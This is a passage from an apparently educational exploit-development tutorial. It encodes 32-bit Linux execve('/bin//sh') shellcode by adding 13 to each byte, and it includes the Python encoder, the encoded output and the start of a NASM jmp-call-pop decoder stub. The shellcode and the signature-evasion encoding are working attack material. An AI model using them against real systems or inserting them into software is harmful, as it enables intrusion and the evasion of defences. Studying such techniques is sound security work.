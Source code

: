   

### 1\. Generate encoded payload

We'll first create an encoder (simple python script) that will iterate over the payload (simple `execve("/bin//sh", NULL,NULL)`) and print it.  
 
```python
#!/bin/python  
  
shellcode = ("\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\xb0\x0b\xcd\x80")  
  
magic = 13  
  
encoded1 = ""  
encoded2 = ""  
  
for i in bytearray(shellcode):  
 j = (i + magic)%256  
 encoded1 += '\\x'  
 encoded1 += '%02x' %j  
  
 encoded2 += '0x'  
 encoded2 += '%02x, ' %j  
  
print "Format 1: {0}".format(encoded1)  
print "Format 2: {0}".format(encoded2)  
```

```console
abatchy@ubuntu:~/Desktop/work$ python encoder.py   
Format 1: \x3e\xcd\x5d\x96\xef\x75\x3c\x3c\x80\x75\x75\x3c\x6f\x76\x7b\x96\xf0\x5d\xbd\x18\xda\x8d  
Format 2: 0x3e, 0xcd, 0x5d, 0x96, 0xef, 0x75, 0x3c, 0x3c, 0x80, 0x75, 0x75, 0x3c, 0x6f, 0x76, 0x7b, 0x96, 0xf0, 0x5d, 0xbd, 0x18, 0xda, 0x8d,  
```

As you can notice, bytes have been incremented by `13`, so `31` becomes `3e`, `c0` becomes `cd` and so on.  
  
---

### 2\. Write assembly wrapper including decoding stub


Next, we'll write an assembly wrapper to decode the shellcode and execute it. Notice that we don't have a way to know size of the shellcode, so we'll hard code its size for now, followed by a nice improvement to get rid of that.  

```nasm
; Rot13ExecveSh.asm  
; by Abatchy  
;  
;   nasm -felf32 Rot13Encoder.asm && ld -o Rot13Encoder Rot13Encoder.o  
; Generated shellcode:   
  
global _start  
  
section .text  
  
_start:  
      
    jmp short get_shellcode_addr    ; Get address of shellcode  
  
ReturnLabel:  
    pop esi                 ; Store address of "shellcode" in esi  
    xor eax, eax  
```